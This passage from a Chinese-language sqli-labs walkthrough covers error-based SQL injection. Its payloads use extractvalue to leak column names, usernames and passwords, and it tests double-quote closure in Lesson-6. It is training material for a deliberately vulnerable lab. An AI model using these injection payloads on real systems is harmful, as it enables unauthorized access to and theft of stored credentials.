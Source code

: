 ![](https://gitee.com/YatJay/image/raw/master/img/202202061046241.png)

爆列名

针对security数据库的user数据表，爆表名

```sql
?id=-1' and (extractvalue(1,concat(0x7e,(select column_name from information_schema.columns where table_name='users' and table_schema=database() limit 0,1),0x7e)))--+
```

**注意指定的表名users一定要加上单引号作为字符串，不能直接写**，并且使用limit对多条结果进行依次输出

得到数据库security数据库中的users表中的列名分别是id、username、password

![](https://gitee.com/YatJay/image/raw/master/img/202202061055053.png)

查询指定数据，并且使用limit对多条结果进行依次输出

```sql
?id=-1' and (extractvalue(1,concat(0x7e,(select username from  users order by id limit 0,1),0x7e)))--+
```
![](https://gitee.com/YatJay/image/raw/master/img/202202061101360.png)

```sql
?id=-1' and (extractvalue(1,concat(0x7e,(select password from  users order by id limit 0,1),0x7e)))--+
```
![](https://gitee.com/YatJay/image/raw/master/img/202202061101858.png)

### Lesson-6

正常提交数据，界面显示 You are in...........

![](https://gitee.com/YatJay/image/raw/master/img/202202061105838.png)

尝试添加单引号进行闭合发现没有作用

![](https://gitee.com/YatJay/image/raw/master/img/202202061107417.png)

然后尝试双引号，出现语法报错

![](https://gitee.com/YatJay/image/raw/master/img/202202061108388.png)

由报错信息可知该SQL语句出错在`...id="1"" limit 0,1`

![](https://gitee.com/YatJay/image/raw/master/img/202202061108559.png)

由报错信息可知该SQL语句出错在`...id="1"" limit 0,1`

猜测源代码传参格式是` id = " $id " LIMIT 0,1`，即是使用双引号闭合

提交`?id=1" and "1"="1`可以成功闭合并成功执行

![](https://gitee.com/YatJay/image/raw/master/img/202202061112769.png)
